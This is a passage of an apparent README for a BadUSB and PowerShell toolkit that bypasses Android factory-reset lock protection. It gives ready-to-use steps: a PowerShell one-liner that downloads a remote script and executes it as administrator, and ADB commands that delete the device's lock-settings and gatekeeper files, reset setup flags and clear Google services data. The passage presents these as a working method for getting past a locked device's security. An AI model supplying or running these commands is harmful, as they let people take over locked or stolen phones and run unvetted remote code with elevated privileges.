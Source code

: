 ### 4. System Properties Method
- Modifies system properties to bypass FRM checks
- Less invasive than other methods
- Good for devices with limited access
- May work on some locked devices

## Installation

1. **Download the Scripts**:
   - `main.ps1` - Main PowerShell script
   - `frm-bypass-badusb.txt` - Flipper Zero BadUSB script
   - `FRM-Bypass-BadUSB.txt` - Detailed documentation

2. **Prepare Flipper Zero**:
   - Copy `frm-bypass-badusb.txt` to your Flipper Zero
   - Ensure Flipper Zero is properly configured

3. **Prepare Target Device**:
   - Enable USB debugging (if possible)
   - Connect device via USB
   - Ensure device is recognized by computer

## Usage

### Method 1: Flipper Zero Execution
1. Connect Flipper Zero to target device
2. Execute the BadUSB script
3. Follow on-screen instructions
4. Select appropriate bypass method from GUI

### Method 2: Direct PowerShell Execution
1. Run PowerShell as Administrator
2. Execute: `irm https://raw.githubusercontent.com/beigeworm/BadUSB-Files-For-FlipperZero/main/FRM-Bypass-BadUSB/main.ps1 | iex`
3. Select bypass method from GUI
4. Follow instructions

### Method 3: Manual ADB Commands
```bash
adb devices
adb shell "rm -rf /data/system/locksettings.db*"
adb shell "rm -rf /data/system/gatekeeper*"
adb shell "settings put global device_provisioned 0"
adb shell "settings put secure user_setup_complete 0"
adb shell "pm clear com.google.android.gms"
adb reboot
```

## Troubleshooting
